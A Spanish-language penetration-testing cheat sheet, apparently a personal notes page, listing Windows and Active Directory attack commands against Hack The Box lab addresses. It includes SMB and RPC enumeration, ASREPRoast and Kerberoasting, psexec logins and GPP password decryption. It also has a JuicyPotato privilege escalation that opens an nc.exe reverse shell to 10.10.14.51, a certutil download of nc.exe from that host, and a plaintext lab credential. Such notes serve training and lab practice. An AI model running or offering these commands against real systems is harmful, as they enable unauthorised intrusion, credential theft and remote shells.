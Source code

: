 ## Windows

El objetivo de esta página es documentar los comandos mas utilizados en enumeración y explotaciónde máquinas Windows.

### crackmapexek

Para ver info de un equipo sin credenciales:

<pre>
crackmapexec smb 10.10.10.100 
</pre>

Para ver recursos compartidos sin credenciales:

<pre>
  crackmapexec smb 10.10.10.100  --shares
</pre>

Para conectar con credenciales:

<pre>
  crackmapexec smb 10.10.10.100  -u 'usuario' -p 'password' --shares
</pre>

### smbmap

Para conectar a un host sin credenciales, nos lista unidades sin credenciales:

<pre>
smbmap -H 10.10.10.1000
smbmap -H 10.10.10.237 -u 'null'
</pre>

Para conectar ver lo que tiene un recurso, paramero -r:

<pre>
smbmap -H 10.10.10.1000 -r Replication
</pre>

Para descargarnos algo, parámetro --download

<pre>
smbmap -H 10.10.10.100 --download Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml
</pre>

Con credenciales:

<pre>
smbmap -H 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' -r Groups
</pre>

### SMBGET 

Para descargar un directorio entero:

<pre>
smbget -R smb://active.htb/Replication -U ""
</pre>

### smbclient

Visualizar sin credenciales:

<pre>
smbclient -L //10.10.10.100/Replication -N

</pre>

Tambien se puede montar unidad con **mount**

<pre>
sudo mount -t cifs //active.htb/Replication /mnt/HTB/Active -o username="{user}",password="{pass}",domain=active.htb,rw
</pre>
### rpcclient

Una vez que tenemos credencales nos podemos conectar co  **rpcclient**:

<pre>
rpcclient -U "USUARIO%CONTRASEÑA" 10.10.10.100
</pre>

Tambien es posible a veces conectarse con sesion null:
<pre>
rpcclient -U "" 10.10.10.100 -N
</pre>

Con credenciales, listamos usuarios del dominio:
<pre>
rpcclient -U "USUARIO%CONTRASEÑA" 10.10.10.100 -c 'enumdomusers'
</pre>


Con credenciales, listamos grupos del dominio:
<pre>
rpcclient -U "USUARIO%CONTRASEÑA" 10.10.10.100 -c 'enumdomgroups'
</pre>


Con credenciales, usuarios de un grupo. Pasamos el id de grupo:
<pre>
rpcclient -U "USUARIO%CONTRASEÑA" 10.10.10.100 -c 'querygroupmem 0x200'
</pre>



Con credenciales, Info de un  usuario por su id:
<pre>
rpcclient -U "USUARIO%CONTRASEÑA" 10.10.10.100 -c 'queryguser 0x1f4'
</pre>

Con credenciales, ver las desripciones de todos los usuarios:
<pre>
rpcclient -U "USUARIO%CONTRASEÑA" 10.10.10.100 -c 'querygdispinfo'
</pre>

### rpcenum

Herramienta de s4vitar para enumerar usuarios y grupos de un dominio. Revisar m´áquina Active de HTB para ver como configurarla.

### ASREPRoast Attack

Cuando solo se dispone de usuarios, sin credenciales, **y estando en un entorno de active directory** se puede intentar un ASREPRoast Attack con GetNPUsers:
<pre>
GetNPUsers.py active.htb/ -no-pass -usersfile users.txt 
</pre>

Tambien puede hacerse un ataque 
### Kerbrute

Si está el puerto de kerberos aberto, el 88, se puede usar kerbrute para enumerar teniendo un diccionario.
<pre>
kerbrute userenum -dc 10.10.10.100 -d active.htb /usr/share/wordlists/SecList/Usernames/Names/names.txt
</pre>

### GetUsersSPNs, Kerberoasting ATTACK

Si no es Kerberoasteable podemos usar esta opción para enumerar.

<pre>
GetUsersSPNs.py active.htb/USUARIO:CONTRASEÑA
</pre>

Si hay resultado se puede obtener un TGS, (Ticket Garanting Service). El hash se puede intentar romper con john


<pre>
GetUsersSPNs.py active.htb/USUARIO:CONTRASEÑA -request
</pre>

Tambien puede hacerse kerberos con credenciales con *+crackmapexec**:

<pre>
crackmapexec ldap active.htb -u SVC_TGS -p GPPstillStandingStrong2k18 --kerberoasting TGS-REP
</pre>
### PSEXEC

Si con **crackmapexec smb** nos aparece **Pwned** podemos obtener acceso con psexec:

<pre>
psexec.py active.htb/Administrator:CONTRASEÑA@10.10.10.100 cmd.exe
</pre>

## ESCALADA DE PRIVILEGIOS

### SeImpersonatePrivilege

si el usuario pertenece a este grupo hay varias vias de convertirse en **NT Authority System**.

#### Juicy Potato

Se puede escalar privilegios, previa subida de JuicyPotato.exe y nc.exe:

<pre>
JP.exe -t * -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\\windows\temp\privescnc.exe -e cmd 10.10.14.51 4446"
</pre>

#### Chimichurry
Otra vía es **Chimichurri**, aunque a veces no va.

<pre>
Chimichurri.exe 10.10.14.51 4446
</pre>

## TRUCOS

### subir archivos desde CMD:
<pre>
certutil.exe -f -urlcache -split http://10.10.14.51/nc.exe nc.exe
</pre>

### Enumerar SYSVOL

Si se puede enumerar SYSVOL hay que buscar el ficehro Groups.txt, (Policies/xxxx/MACHINE/Preferences/Group).
Como microsoft publicó la clave de desencriptación se puede utilizar **gpp-decript**.

<pre>
gpp-decrypt 'CONTRASEÑAEMCRIPTADA'
</pre>

### Sincronizar reloj

Para ataques ASREPRoast o kerbrute hay que sincronizar el reloj con el de la maquina active directory:

<pre>
ntpdate 10.10.10.100
</pre>

Con **date -s** podemos volver a dejar la fecha igual. Investigar como.

### ver certificado SSL

<pre>
echo | openssl s_client -connect 10.129.173.50:443  
</pre>

## Enlaces de interes

[Windows Cheet-Sheet by Intrusionz3r0](https://intrusionz3r0.github.io/posts/Windows/)
